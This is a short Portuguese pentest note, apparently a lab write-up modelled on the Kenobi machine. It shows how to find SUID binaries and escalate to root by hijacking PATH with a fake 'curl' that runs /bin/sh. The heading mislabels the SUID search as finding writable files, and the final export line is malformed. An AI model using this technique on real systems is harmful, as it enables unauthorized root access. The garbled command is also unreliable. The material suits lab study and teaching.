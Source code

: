 ```yaml
---
{"dg-publish":true,"permalink":"/pentest/priv-escalation/achar-arquivos-que-tem-permissoes-de-serem-escritos/","noteIcon":""}
---
```


## Achar arquivos que tem permissões de serem escritos

```shell
find / -perm -u=s -type f 2>/dev/null
```

Foi achado o arquivo menu, sendo assim, o menu tem 3 opções.

1. Status check
2. Kernel version
3. ifconfig

- Por que isto é importante?
	- Quando você usa um comando como o "`status check`", basicamente você precisa de um programa pra rodar ele. O usuário final não necessita saber, porém este programa é chamado `curl`
	- ![](https://i.imgur.com/1xMRzfl.png)  


Sendo assim podemos manipular o estado do `curl`, afinal ele só roda se tivermos privilegios root, então porquê ele está rodando? Alguém dentro do servidor manipulou ele para liberar acesso a algum outro usuário, portanto podemos utilizar isso ao nosso favor.

- Vamos copiar a `zsh` do linux, nomea-la `curl` e mandar ela para `/tmp`
- Mudar a permissão dela para 777 com: `chmod 777 curl`:
```shell
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl 
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH/user/bin/menu
```